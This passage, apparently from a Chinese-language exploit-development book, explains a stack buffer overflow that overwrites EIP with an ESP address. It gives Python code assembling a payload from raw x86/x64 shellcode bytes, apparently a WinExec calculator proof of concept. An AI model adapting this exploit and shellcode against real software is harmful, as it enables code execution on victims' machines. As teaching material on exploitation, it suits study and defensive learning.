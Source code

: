 图 8.20 – 分析 shellcode

执行 shellcode 的策略，在本例中，将如下所示：

1.  将 shellcode 放在开头，使其位于栈顶，由 `ESP` 寄存器指向。我们知道 `ESP` 的值，因为我们在调试器中看到了它，值为 `0x0028FA08`（由于字节序问题，我们需要将值反转顺序，并且可以省略字节零）。

1.  接下来，添加填充以触发栈溢出，然后放置 `ESP` 的值，因为 `EIP` 将被此值覆盖，从而触发我们的 shellcode 执行。

以下代码实现了上述策略：

```
import subprocess
```

```
shellcode = \
```

```
"\x31\xC0\x50\x68\x63\x61\x6C\x63\x54\x59\x50\x40\x92\x74" \
```

```
"\x15\x51\x64\x8B\x72\x2F\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B" \ "\x30\x8B\x7E\x18\xB2\x50\xEB\x1A\xB2\x60\x48\x29\xD4\x65" \
```

```
"\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48" \ "\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B" \
```

```
"\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17" \ "\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B" \
```

```
"\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF" \
```

```
"\xD7"
```

```
ESP = "\x08\xfa\x28"
```

```
payload = shellcode
```

```
payload += "A"*(212 -4 -len(shellcode))
```

```
payload += "B"*4
```

```
payload += ESP
```
